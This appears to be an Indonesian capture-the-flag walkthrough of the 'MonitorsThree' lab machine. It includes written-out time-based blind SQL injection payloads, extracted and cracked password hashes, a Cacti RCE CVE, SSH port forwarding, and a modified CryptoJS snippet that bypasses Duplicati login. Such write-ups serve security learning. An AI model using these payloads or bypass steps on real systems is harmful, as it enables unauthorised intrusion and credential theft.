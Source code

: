 ![[Pasted image 20250115091538.png]]
# 1. Nmap
## TCP
![[Pasted image 20250115091904.png]]
![[Pasted image 20250115092513.png]]
tidak ada port UDP

# 2. Port 80 - monitorsthree.htb
- Login http://monitorsthree.htb/login.php -> cek ==SQLinjection== -> **NOPE**
![[Pasted image 20250115093436.png]]
- Forgot password http://monitorsthree.htb/forgot_password.php
- Input `admin` -> bisa dikirim forgot password
![[Pasted image 20250115100130.png]]
- Input `admin'` -> error SQL maria DB , input `admin--+` error hilang
![[Pasted image 20250115100613.png]]
- Whatweb sales@monitorsthree.htb
![[Pasted image 20250115092553.png]]
- Kosong http://monitorsthree.htb/admin/db.php
- Kosong http://monitorsthree.htb/admin/footer.php , sepertinya page admin ada ?
- dirsearch biasa
- dirsearch raft medium
# 3. Subdomain - cacti.monitorsthree.htb 
![[Pasted image 20250115101959.png]]
cacti -> 302
tambahkan cacti.monitorsthree.htb ke /etc/host
![[Pasted image 20250115141920.png]]
cacti version 1.2.26
- https://github.com/Safarchand/CVE-2024-25641 butuh user password
- cek default password admin/admin => tidak bisa

# 4. Exploitation SQL injection
- database info -> MySQL 5.0.12 (Maria DB Fork)
![[Pasted image 20250115102652.png]]
- Database db name
![[Pasted image 20250115111205.png]]
eh ternya tidak boleh pake SQLmap :(
## Pake manual
- ditemukan db memiliki ==9 kolom==
![[Pasted image 20250115132027.png]]
![[Pasted image 20250115132109.png]]
cek apakah bisa blind sqli 
```
username=admin'AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '%')#
```

cek jumlah karakter DB = 16 berhasil ada delay 10 detik
```
username=admin'AND+(SELECT+SLEEP(10)+FROM+DUAL+WHERE+DATABASE()+LIKE+'________________')%23
```

cek huruf berurutan, berhasil ada delay 10 detik
```
username=admin'AND+(SELECT+SLEEP(10)+FROM+DUAL+WHERE+DATABASE()+LIKE+'m______________')%23
```

```
1 -> m
2 -> o
3 -> n
4 -> i
5 -> t
6 -> o
7 -> r
8 -> s
9 -> t
10 -> h
11 -> r
12 -> e
13 -> e
14 -> _
15 -> d
16 -> b
```
final -> ==monitorsthree_db==

cek column name length, tambah underscorenya terus, delay 10 saat underscorenya 5 biji
```
username=admin'AND%20(SELECT%20SLEEP(10)%20FROM%20DUAL%20WHERE%20(SELECT%20table_name%20FROM%20information_schema.columns%20WHERE%20table_schema%3dDATABASE()%20AND%20column_name%20LIKE%20'%25pass%25'%20LIMIT%200%2c1)%20LIKE%20'__')%23 -> biasa delay

username=admin'AND%20(SELECT%20SLEEP(10)%20FROM%20DUAL%20WHERE%20(SELECT%20table_name%20FROM%20information_schema.columns%20WHERE%20table_schema%3dDATABASE()%20AND%20column_name%20LIKE%20'%25pass%25'%20LIMIT%200%2c1)%20LIKE%20'_____')%23 -> 10 second delay

1 -> u
2 -> s
3 -> e
4 -> r
5 -> s

final result -> users 
```
![[Pasted image 20250115211940.png]]
## Pake ffuf (alternative best way)
Cek panjang db -> ==16==
![[Pasted image 20250118093103.png]]

Bruteforce nama db -> ==monitorsthree_db==
![[Pasted image 20250118093927.png]]

Bruteforce nama table -> ==users== menarik
![[Pasted image 20250118092840.png]]
Brute force nama kolom -> ada ==username== dan password
![[Pasted image 20250118102638.png]]

Brute force data pada kolom username -> ==admin==
![[Pasted image 20250118103608.png]]

Cek panjang kata password dari username admin -> 32
![[Pasted image 20250118104015.png]]

Brute force huruf per huruf password dari username admin -> `31a181c8372e3afc59dab863430610e8`
![[Pasted image 20250118132202.png]]

decode md5 string tsb  => ==greencacti2001==
![[Pasted image 20250118132758.png]]

# 5. Login admin ke dashboard cacti
berhasil login
![[Pasted image 20250118132937.png]]
ada CVE https://github.com/Safarchand/CVE-2024-25641 untuk mendapatkan RCE
![[Pasted image 20250118134134.png]]
dapat shell tapi, tidak bisa mengakses /home
![[Pasted image 20250118134627.png]]
untuk masuk /home harus melalui user marcun dan root
data netstat
![[Pasted image 20250118134853.png]]
/include/config.php
![[Pasted image 20250118214859.png]]
login mysql -> ada tables ==user auth_user==
![[Pasted image 20250119095751.png]]
Terdapat credential marcus -> $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK
![[Pasted image 20250119095915.png]]

detection hash, dan crack menggunaka hashcat
![[Pasted image 20250119103259.png]]

kita coba login ssh dengan password tsb -> tidak bisa
coba login dari dalam, dapat user.txt
# 6. Priviledge Escalation
cek sudo -l tidak bisa
![[Pasted image 20250119104734.png]]
coba port forwarding local port
```
ssh -i marcus_private.txt marcus@10.10.11.30 -L 8084:localhost:8084 -L 33307:localhost:33307 -L 8200:localhost:8200
```
port 8200 menarik, ada form login
![[Pasted image 20250119105314.png]]
menggunakan tiny server
![[Pasted image 20250119110234.png]]

menemukan artikel ini untuk bypass login pada duplicati
https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee
download db
```
scp -i marcus_private.txt marcus@10.10.11.30:/opt/duplicati/config/Duplicati-server.sqlite . 
```
buka pada tables options, terdapat credential -> ==Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho===
![[Pasted image 20250119122931.png]]
![[Pasted image 20250119123609.png]]
original
```
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse(data.Nonce) + saltedpwd)).toString(CryptoJS.enc.Base64);
```
modified, login dan intercept request untuk mengambil nonce stringnya
![[Pasted image 20250119124650.png]]
```
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('RgThWx/kDtqiKKoGdLC4PVbV9kXX5RzUM1RVnFinYvs=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64);
```
berhasil login
![[Pasted image 20250119150157.png]]

lakukan backup root.txt
![[Pasted image 20250119154439.png]]
restore backupmya, untuk mendapatkan root flag
![[Pasted image 20250119154504.png]]==PWN!==